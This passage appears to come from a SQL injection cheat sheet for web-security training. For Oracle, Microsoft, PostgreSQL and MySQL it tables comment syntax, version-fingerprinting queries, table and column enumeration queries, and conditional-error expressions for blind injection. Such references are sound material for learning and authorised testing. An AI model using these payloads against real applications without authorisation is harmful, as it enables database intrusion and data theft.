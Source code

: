 |   |   |
|---|---|
|Oracle|`--comment   `|
|Microsoft|`--comment   /*comment*/`|
|PostgreSQL|`--comment   /*comment*/`|
|MySQL|`#comment`  <br>`-- comment` [Note the space after the double dash]  <br>`/*comment*/`|

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|   |   |
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

|   |   |
|---|---|
|Oracle|`SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`|
|Microsoft|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|
|PostgreSQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|
|MySQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|
